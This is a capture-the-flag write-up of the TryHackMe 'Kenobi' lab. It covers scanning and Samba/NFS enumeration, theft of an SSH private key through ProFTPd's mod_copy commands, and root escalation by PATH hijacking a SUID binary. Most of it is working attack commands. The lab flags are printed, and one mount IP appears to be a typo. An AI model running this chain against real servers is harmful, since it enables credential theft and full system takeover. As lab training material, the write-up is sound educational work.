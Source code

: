 # Kenobi

```bash
export IP=10.10.63.26
```

## Scans

### Nmap
Command:
```bash
nmap -vv -sC -sV -oN scans/nmap.initial $IP
```

Open Ports found:
```
21 -- ftp
22 -- ssh
80 -- webpage
111 -- RPC -- Remote Procedure Call
139 -- smb
445 --smb
2049
```

/robots.txt
```
User-agent: *
Disallow: /admin.html
```
IT'S A TRAP

### Samba

**Samba** allows users to acces and use files, printers, and other commonly shared resources over the internet.
It is often referred to as a *network file system*.

Samba is based on the **SMB** protocol -- Server Message Block

This script scans for samba shares
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.63.26
```

found 3 shares, most importantly: `anonymous`

this connects to the samba client with the `anonymous` user, similar to the `ftp` command
```bash
smbclient //$IP/anonymous
```

found `log.txt` file inside shares

this command downloads the available shares, similar to `wget`
```bash
smbget -R smb://$IP/anonymous
```

`log.txt` shows that an id_rsa key for user `kenobi` exists

this nmap script enumerates port 111's file system, to show available mount points
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.63.26
```

found `/var` as available


### Gobuster
```bash
gobuster dir -u 10.10.63.26 -w /opt/directory-list-2.3-medium.txt
```

Found Directories:
```
/server-status -- 403
```

nothing useful


## Initial Access with ProFtpd

* **ProFtpd** is a free/open-source FTP server, compatible with Unix and Windows. It has shown vulnerabilities in past versions.

    - This machine is running proftpd v/1.3.5, vulnerable to the mod_copy module exploit

    - the mod_copy module implements the commands `SITE CPFR` and `SITE CPTO` to copy files/directories across a server

netcatting into the macine and using the mod_copy module to copy `kenobi`'s id_rsa
```bash
nc 10.10.63.26 21

SITE CPFR /home/kenobi/.ssh/id_rsa

SITE CPTO /var/tmp/id_rsa
```

mounting directory to our local machine
```bash
mkdir /mnt/kenobiNFS
sudo mount 10.10.64.26:/var /mnt/kenobiNFS
```

after copying id_rsa, remember to set file permission
```bash
chmod 600 id_rsa
```


## SSH into Machine
```bash
ssh -i id_rsa kenobi@10.10.63.26
```

**User Flag Found:** `d0b0f3f53b6caa532a83915e19224899`


## Privilege Escalation with Path Variable Manipulation

using the `find` command to look for files with elevated privileges
```bash
find / -perm -u=s -type f 2>/dev/null
```

and seeing `/usr/bin/menu` which runs the `curl` and `uname` command without a full path

PrivEsc Command:
```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

because we copied the /bin/sh shell, named it `curl`, and gave it the correct file permission/path...
running the `/usr/bin/menu`, and calling the `curl` binary would call our new shell instead

and since the file is being run as root, selecting option `1` gives a root shell

**Root Flag Found**: `177b3cd8562289f37382721c28381f02`

---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
